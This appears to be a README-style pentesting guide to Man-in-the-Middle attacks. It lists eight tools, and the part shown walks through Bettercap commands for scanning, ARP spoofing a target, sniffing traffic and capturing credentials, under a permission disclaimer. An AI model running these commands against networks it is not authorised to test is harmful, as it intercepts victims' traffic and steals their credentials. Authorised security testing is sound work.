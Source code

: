 This documentation provides a step-by-step guide on how to perform a Man-in-the-Middle (MITM) attack penetration test using the following tools:

1. **Bettercap**
2. **Ettercap**
3. **arpspoof**
4. **dnsspoof**
5. **SSLstrip**
6. **hostapd**
7. **eviltwin**
8. **scapy**

Before proceeding, ensure you have the necessary permissions to perform these tests on the target network. Unauthorized access to networks or systems is illegal and unethical.

---

## 1\. **Bettercap**

Bettercap is a powerful, modular, and portable MITM framework.

### Steps:

1. **Installation**:

```
sudo apt-get install bettercap
```
2. **Launch Bettercap**:

```
sudo bettercap
```
3. **Scan the Network**:

```
net.probe on
net.recon on
```
4. **ARP Spoofing**:

```
set arp.spoof.targets <target_ip>
arp.spoof on
```
5. **Sniff Traffic**:

```
net.sniff on
```
6. **Capture Credentials**:  
Bettercap can capture credentials from HTTP traffic by default.
7. **Stop the Attack**:

```
net.sniff off
arp.spoof off
```

---